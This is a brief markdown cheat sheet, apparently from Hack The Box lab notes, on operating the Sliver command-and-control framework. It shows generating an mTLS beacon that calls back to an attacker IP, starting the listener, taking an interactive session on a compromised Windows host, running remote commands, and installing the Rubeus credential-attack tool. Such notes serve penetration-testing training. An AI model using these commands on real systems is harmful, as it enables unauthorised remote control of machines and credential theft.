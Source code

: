 # Sliver C2  
## Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
## Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

## Navigate  
### Beacons  
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
OR     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
### Sessions (interactive)    
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`    
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
Now we got an interactive session shell.    

### Execute commands in a session   
sliver (PERFECT_WALL) > `execute -o <command>`  

### Load tools  
sliver (PERFECT_WALL) > `armory install rubeus`  
  
  





